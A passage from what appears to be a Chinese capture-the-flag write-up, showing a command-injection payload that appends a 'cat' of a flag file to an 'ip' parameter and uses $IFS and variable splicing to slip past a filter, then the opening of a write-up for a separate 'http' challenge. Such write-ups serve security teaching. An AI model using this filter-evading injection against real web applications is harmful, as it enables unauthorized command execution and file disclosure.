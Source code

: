 也可以尝试 payload

`?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php`

![](img/14.png)

F12 可见下面有 flag。


## 极客大挑战2019-http题解

查看网页源码，发现一个文件secret.php。
